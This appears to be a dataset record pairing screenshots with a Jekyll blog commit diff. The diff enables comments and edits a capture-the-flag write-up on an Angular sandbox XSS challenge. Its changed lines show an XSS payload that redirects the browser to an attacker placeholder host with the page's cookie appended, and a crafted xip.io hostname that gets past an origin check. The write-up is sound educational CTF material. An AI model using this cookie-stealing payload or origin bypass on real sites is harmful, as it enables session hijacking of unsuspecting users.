

Before and after one commit to TeamCookieZ/TeamCookieZ.github.io, a Jekyll site: the page built from _posts/2020-12-08-STF-You-shall-not-pass!.md, in a window 1280 px wide and 900 px high, scrolled down 4218 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
More change

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -64,7 +64,7 @@ google_analytics:
 
 disqus:
   comments: false  # boolean type, the global switch for posts comments.
-  shortname: ''    # Fill with your Disqus shortname. › https://help.disqus.com/en/articles/1717111-what-s-a-shortname
+  shortname: 'teamcookiez'    # Fill with your Disqus shortname. › https://help.disqus.com/en/articles/1717111-what-s-a-shortname
 
 
 # Prefer color scheme setting, available values:
--- a/_posts/2020-12-08-STF-You-shall-not-pass!.md
+++ b/_posts/2020-12-08-STF-You-shall-not-pass!.md
@@ -1,10 +1,11 @@
 ---
-title: STF-<You shall not pass!>
+title: STF-You shall not pass!
 author: Jason Chua (Coldspot)
 date: 2020-12-08 00:00:51 +0800
 categories: [CTF]
 tags: [sandbox, tech, angular, xss]
 toc: true
+comments: true
 ---
 
 
@@ -92,6 +93,8 @@ To test the script locally, download the vulnerable Angular source code from the
 </script>
 ```
 The result should be something like this:
+
+
 ![upload-image](/assets/img/blog/STF-You-shall-not-pass!/12.png)
 
 Assuming you have [python](https://www.python.org/) installed, run the following command in the root directory in a command prompt and open up `http://localhost` on a web browser
@@ -151,9 +154,9 @@ This Regular Expression check if `event.origin` begins with  `yhi8bpzolrog3yw17f
 
 ## Finishing up
 
-Finally, the payload will be changed from `a, alert(“COLDSPOT”),a` to ` a,document.location = "http://<IPADDRESS>/" + document.cookie,a`. Finally, port forward and retrieve your IP address and replace <IPADDRESS> with your own IP address.
+Finally, the payload will be changed from `a, alert(“COLDSPOT”),a` to `a,document.location = "http://<IPADDRESS>/" + document.cookie,a`. Finally, port forward and retrieve your IP address and replace <IPADDRESS> with your own IP address.
 
-Entering ` yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io` into `Add new website to hack` form will cause the server to request a URL on our local server with the flag as the filename.
+Entering `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io` into `Add new website to hack` form will cause the server to request a URL on our local server with the flag as the filename.
 
 ![upload-image](/assets/img/blog/STF-You-shall-not-pass!/17.png)
 
@@ -161,7 +164,7 @@ Entering ` yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io` in
 
 On the CTF day itself, I did not want to mess with port forwarding as many ports from my device were open and vulnerable. As such, I used a $5/month droplet on DigitalOcean and my own domain name `coldspot.me`.
 
-The total cost of the server can be seen in the picture below:
+The grand total for the server cost can be seen in the picture below:
 ![upload-image](/assets/img/blog/STF-You-shall-not-pass!/18.png)
 
 
````
